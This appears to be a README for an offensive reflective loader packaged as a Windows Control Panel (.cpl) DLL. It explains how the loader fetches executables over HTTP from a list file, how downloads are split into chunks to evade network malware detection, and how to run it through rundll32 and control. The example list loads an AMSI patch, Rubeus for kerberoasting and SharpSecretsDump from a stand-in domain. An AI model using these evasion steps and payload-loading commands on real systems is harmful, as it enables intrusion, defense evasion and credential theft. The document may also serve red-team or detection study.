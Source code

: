 ## Reflective loader DLL
Exports the CPlApplet function, to be used as a Control Panel Item (CPL) for a proxied execution using Windows Control panel. CPL files are just DLLs renamed to have a _.cpl_ extension.

## Description
To avoid the need for arguments (as CPL items don't get any), it looks for the _list.txt_ file on the same folder, if it is not present, it finishes the execution. 

This file will feed the reflective loader with the executables to run, and each will be loaded sequentially in the order they appear in the file. They can be either remote (through HTTP) or local files.

It is possible to pass arguments to the executables normally as if running them on the terminal, but the _space_ character needs to be escaped with a \ (blackslash) character:
```
<executable>.exe <arg1> <arg2> This\ is\ a\ string\ argument
```

Certain network controls will cut the communication once they detect malware, and the loader won't be able to load it. To avoid this, a functionality was added to donwload the file in chunks, assemble the pieces and load the final result. To use this funcionality, you can use the _chunks_ keyword and specify the number of chunks the file is divided in:

```
chunks <n chunks> http://mydomain/Name.exe
```

For this, the server needs to be prepared beforehand, by splitting the file in a number of chunks, and storing them in a folder with the name of the executable, and each chunk should have the following format:
```
- ServerRoot
--- Name
------ Name.00
------ Name.01
------ Name.02
...snip...
------ Name.nn
```
The _split_ command can be used to achieve this, as an example, this script can be used to generate the required folder on the server root folder:
```bash

```

Example _list.txt_
```txt
http://mydomain.com/amsi_patch.exe
http://mydomain.com/Rubeus.exe kerberoast
C:\Users\Public\SharpSecretsDump.exe
```

### Run
```powershell
rundll32 CPL.cpl,CPlApplet # Normal direct execution
rundll32 shell32,Control_RunDLL CPL.cpl # Execution using Control panel DLL
control CPL.cpl # Execution using Control panel application
```


### References
[T1218.002 - System Binary Proxy Execution: Control Panel](https://attack.mitre.org/techniques/T1218/002/)
 